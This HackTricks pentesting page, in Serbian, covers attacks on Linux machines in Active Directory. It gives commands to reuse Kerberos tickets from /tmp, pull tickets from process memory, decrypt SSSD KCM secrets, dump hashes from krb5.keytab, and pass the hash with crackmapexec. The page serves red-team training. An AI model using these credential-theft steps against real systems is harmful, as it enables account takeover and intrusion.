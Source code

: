 # Linux Active Directory

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% embed url="https://websec.nl/" %}

Linux mašina može biti prisutna unutar Active Directory okruženja.

Linux mašina u AD može **čuvati različite CCACHE karte unutar fajlova. Ove karte se mogu koristiti i zloupotrebljavati kao i svaka druga kerberos karta**. Da biste pročitali ove karte, potrebno je da budete korisnik vlasnik karte ili **root** unutar mašine.

## Enumeration

### AD enumeracija sa linux-a

Ako imate pristup AD-u na linux-u (ili bash-u u Windows-u), možete probati [https://github.com/lefayjey/linWinPwn](https://github.com/lefayjey/linWinPwn) da enumerišete AD.

Takođe možete proveriti sledeću stranicu da biste naučili **druge načine za enumeraciju AD-a sa linux-a**:

{% content-ref url="../../network-services-pentesting/pentesting-ldap.md" %}
[pentesting-ldap.md](../../network-services-pentesting/pentesting-ldap.md)
{% endcontent-ref %}

### FreeIPA

FreeIPA je open-source **alternativa** za Microsoft Windows **Active Directory**, uglavnom za **Unix** okruženja. Kombinuje kompletnu **LDAP direktoriju** sa MIT **Kerberos** Centrom za distribuciju ključeva za upravljanje sličnim Active Directory. Koristi Dogtag **Sistem sertifikata** za upravljanje CA i RA sertifikatima, podržava **multi-factor** autentifikaciju, uključujući pametne kartice. SSSD je integrisan za Unix procese autentifikacije. Saznajte više o tome u:

{% content-ref url="../freeipa-pentesting.md" %}
[freeipa-pentesting.md](../freeipa-pentesting.md)
{% endcontent-ref %}

## Igra sa kartama

### Pass The Ticket

Na ovoj stranici ćete pronaći različita mesta gde možete **pronaći kerberos karte unutar linux hosta**, na sledećoj stranici možete naučiti kako da transformišete formate ovih CCache karata u Kirbi (format koji treba da koristite u Windows-u) i takođe kako da izvršite PTT napad:

{% content-ref url="../../windows-hardening/active-directory-methodology/pass-the-ticket.md" %}
[pass-the-ticket.md](../../windows-hardening/active-directory-methodology/pass-the-ticket.md)
{% endcontent-ref %}

### CCACHE ponovna upotreba iz /tmp

CCACHE fajlovi su binarni formati za **čuvanje Kerberos kredencijala** i obično se čuvaju sa 600 dozvolama u `/tmp`. Ovi fajlovi se mogu identifikovati po svom **formatu imena, `krb5cc_%{uid}`,** koji se odnosi na UID korisnika. Za verifikaciju autentifikacione karte, **promenljiva okruženja `KRB5CCNAME`** treba da bude postavljena na putanju željenog fajla karte, omogućavajući njenu ponovnu upotrebu.

Prikazivanje trenutne karte koja se koristi za autentifikaciju sa `env | grep KRB5CCNAME`. Format je prenosiv i karta se može **ponovo koristiti postavljanjem promenljive okruženja** sa `export KRB5CCNAME=/tmp/ticket.ccache`. Format imena Kerberos karte je `krb5cc_%{uid}` gde je uid UID korisnika.
```bash
# Find tickets
ls /tmp/ | grep krb5cc
krb5cc_1000

# Prepare to use it
export KRB5CCNAME=/tmp/krb5cc_1000
```
### CCACHE ticket reuse from keyring

**Kerberos karte pohranjene u memoriji procesa mogu se izvući**, posebno kada je zaštita ptrace na mašini onemogućena (`/proc/sys/kernel/yama/ptrace_scope`). Koristan alat za ovu svrhu se može pronaći na [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey), koji olakšava ekstrakciju injektovanjem u sesije i dumpovanjem karata u `/tmp`.

Da biste konfigurisali i koristili ovaj alat, slede se koraci u nastavku:
```bash
git clone https://github.com/TarlogicSecurity/tickey
cd tickey/tickey
make CONF=Release
/tmp/tickey -i
```
Ova procedura će pokušati da injektuje u različite sesije, označavajući uspeh čuvanjem ekstrahovanih karata u `/tmp` sa konvencijom imenovanja `__krb_UID.ccache`.

### CCACHE ponovna upotreba karata iz SSSD KCM

SSSD održava kopiju baze podataka na putanji `/var/lib/sss/secrets/secrets.ldb`. Odgovarajući ključ se čuva kao skriveni fajl na putanji `/var/lib/sss/secrets/.secrets.mkey`. Po defaultu, ključ je čitljiv samo ako imate **root** dozvole.

Pozivanje \*\*`SSSDKCMExtractor` \*\* sa --database i --key parametrima će analizirati bazu podataka i **dekriptovati tajne**.
```bash
git clone https://github.com/fireeye/SSSDKCMExtractor
python3 SSSDKCMExtractor.py --database secrets.ldb --key secrets.mkey
```
**Keš kredencijala Kerberos blob može biti konvertovan u upotrebljiv Kerberos CCache** fajl koji se može proslediti Mimikatz/Rubeus.

### CCACHE ponovna upotreba karte iz keytab-a
```bash
git clone https://github.com/its-a-feature/KeytabParser
python KeytabParser.py /etc/krb5.keytab
klist -k /etc/krb5.keytab
```
### Izvlačenje naloga iz /etc/krb5.keytab

Ključevi servisnog naloga, koji su neophodni za usluge koje rade sa root privilegijama, sigurno su pohranjeni u **`/etc/krb5.keytab`** datotekama. Ovi ključevi, slični lozinkama za usluge, zahtevaju strogu poverljivost.

Da biste pregledali sadržaj keytab datoteke, može se koristiti **`klist`**. Ovaj alat je dizajniran da prikaže detalje ključeva, uključujući **NT Hash** za autentifikaciju korisnika, posebno kada je tip ključa identifikovan kao 23.
```bash
klist.exe -t -K -e -k FILE:C:/Path/to/your/krb5.keytab
# Output includes service principal details and the NT Hash
```
Za Linux korisnike, **`KeyTabExtract`** nudi funkcionalnost za ekstrakciju RC4 HMAC heša, koji se može iskoristiti za ponovnu upotrebu NTLM heša.
```bash
python3 keytabextract.py krb5.keytab
# Expected output varies based on hash availability
```
Na macOS-u, **`bifrost`** služi kao alat za analizu keytab datoteka.
```bash
./bifrost -action dump -source keytab -path /path/to/your/file
```
Korišćenjem ekstraktovanih informacija o nalogu i hešu, mogu se uspostaviti veze sa serverima koristeći alate kao što je **`crackmapexec`**.
```bash
crackmapexec 10.XXX.XXX.XXX -u 'ServiceAccount$' -H "HashPlaceholder" -d "YourDOMAIN"
```
## Reference

* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
* [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory)

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

